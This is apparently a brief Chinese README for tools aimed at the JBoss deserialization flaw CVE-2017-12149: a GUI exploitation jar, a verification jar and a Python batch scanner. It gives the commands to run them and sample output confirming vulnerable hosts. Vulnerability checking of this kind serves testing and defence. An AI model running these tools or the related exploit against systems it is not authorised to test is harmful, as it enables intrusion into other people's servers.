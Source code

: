 # 
1.jboss反序列化_CVE-2017-12149.jar GUI
jboss-_CVE-2017-12149

#referer:https://github.com/yunxu1/jboss-_CVE-2017-12149

2.漏洞验证
verify_CVE-2017-12149.jar提供命令行模式下验证漏洞,如果漏洞存在返回特征字符串,只需要执行命令:

```shell/cmd
$ java -jar verify_CVE-2017-12149.jar http://xxx:8080

#成功返回:
vuln6581362514513155613jboss
```
#referer:https://github.com/yunxu1/jboss-_CVE-2017-12149

3.批量验证漏洞(支持http/https协议)
python Jboss-cve201712149-pl.py urllist.txt
```
urllist.txt-format:
http://1.1.1.1:8080
```
#成功返回:
```
http://192.168.1.10:8080/invoker/readonly maybe use HttpInvoker! 
http://192.168.1.10:8080 is  Vul-Jboss-cve-2017-12149! 
```
ps：py运行需要安装requests 库
pip install requests
